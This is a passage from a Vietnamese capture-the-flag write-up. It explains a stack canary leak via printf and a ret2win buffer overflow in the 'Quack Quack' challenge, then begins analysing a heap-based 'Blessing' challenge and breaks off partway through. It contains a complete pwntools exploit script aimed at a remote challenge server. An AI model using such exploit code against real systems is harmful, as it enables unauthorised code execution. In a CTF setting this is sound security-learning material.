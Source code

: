 ```c
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);
  return v3 - __readfsqword(0x28u);
}
```

- và ta cần chú ý đoạn này , nó sẽ in ra dữ liệu của v1+32 và v1 chính là địa chỉ được trả về bởi hàm `strstr` , vậy ta cần setup thế nào làm sao cho v1 sẽ là canary-31 là được , -31 bởi vì printf sẽ leak cho đến byte NULL , và như ta biết thì byte cuối của CANARY là NULL nên ta cần bắt đầu in với canary+1  
```c
printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

- sau khi leak xong thì ret2win thôi không có gì đặc biệt

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./quack_quack_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('94.237.52.195',39106)
pl = b'a'*0x59
pl += b'Quack Quack ' + b'a'
input()
p.sendafter(b'> ',pl)
p.recvuntil(b'Quack Quack ')

canary = u64(b'\x00' + p.recv(7))
print(hex(canary))
input()
p.send(b'a'*0x58+p64(canary) + p64(0x406000-0x100) + p64(0x000000000040139A))
p.interactive()
```

## Blessing

- bài này trông khá là vui 
### analys 

- chương trình chỉ đơn giản là malloc() với 1 size rất lớn , sau đó gán giá trị 1 cho địa chỉ vừa được malloc trả về , tiếp theo là in ra địa chỉ này và yêu cầu ta nhập 1 size xong rồi malloc() với size đó
- tiếp theo ta sẽ được read vào `chunk` này với số byte là size vừa nhập  và in dữ liệu của nó ra , check xem v6 có NULL không , nếu NULL thì ta sẽ gọi hàm win và ta sẽ có flag  
